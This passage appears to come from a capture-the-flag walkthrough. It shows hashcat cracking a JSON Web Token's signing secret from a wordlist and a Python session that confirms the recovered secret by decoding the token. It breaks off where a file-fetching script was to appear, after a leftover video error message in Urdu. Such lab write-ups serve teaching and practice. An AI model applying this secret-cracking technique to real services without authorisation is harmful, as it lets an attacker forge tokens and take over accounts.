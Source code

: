 

    $ hashcat jwt /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:

    16500 | JWT (JSON Web Token) | Network Protocol
    ...[snip]...
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY0MjE1MzgxfQ.9jp7Obm_6-Z3A3GyueqnbMBX26R7_qKNoLXR5JjT7Ew:123beany123
    ...[snip]...



I'll validate it works using Python:



    oxdf@hacky$ python3
    Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import jwt
    >>> token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY0MjE1MzgxfQ.9jp7Obm_6-Z3A3GyueqnbMBX26R7_qKNoLXR5JjT7Ew'
    >>> jwt.decode(token, '0xdf')
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/usr/lib/python3/dist-packages/jwt/api_jwt.py", line 91, in decode
        decoded = super(PyJWT, self).decode(
      File "/usr/lib/python3/dist-packages/jwt/api_jws.py", line 155, in decode
        self._verify_signature(payload, signing_input, header, signature,
      File "/usr/lib/python3/dist-packages/jwt/api_jws.py", line 223, in _verify_signature
        raise InvalidSignatureError('Signature verification failed')
    jwt.exceptions.InvalidSignatureError: Signature verification failed
    >>> jwt.decode(token, '123beany123')
    {'username': 'christopher.jones', 'iat': 1664215381}



The secret of "0xdf" causes an exception, but the secret of
"123beany123" works.

#### Script

I'll write a quick script to take a file name and fetch it in [this
video](https://www.youtube.com/watch?v=j6G214-J6TE):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=j6G214-J6TE){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The final script is:

